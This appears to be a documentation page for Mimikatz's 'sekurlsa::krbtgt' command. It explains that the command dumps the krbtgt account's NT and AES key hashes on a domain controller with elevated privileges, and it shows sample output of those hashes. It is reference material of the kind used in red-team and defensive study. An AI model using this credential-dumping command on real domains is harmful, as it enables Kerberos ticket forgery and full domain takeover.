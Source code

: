 # krbtgt

`sekurlsa::krbtgt` retrieves the krbtgt RC4 (i.e. NT hash), AES128 and AES256 hashes.

{% hint style="warning" %}
This command must be run on a domain controller
{% endhint %}

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::krbtgt

Current krbtgt: 5 credentials
         * rc4_hmac_nt       : b5348d0a20a24a67ff544146a09cd292
         * rc4_hmac_old      : b5348d0a20a24a67ff544146a09cd292
         * rc4_md4           : b5348d0a20a24a67ff544146a09cd292
         * aes256_hmac       : 3ab45a59d37a5a647e0d7d9d942d0e8b77911cff0bd95b16e203cd9503ccdd96
         * aes128_hmac       : 3c8fc2890213fb9be3d6fb139b1be881
```
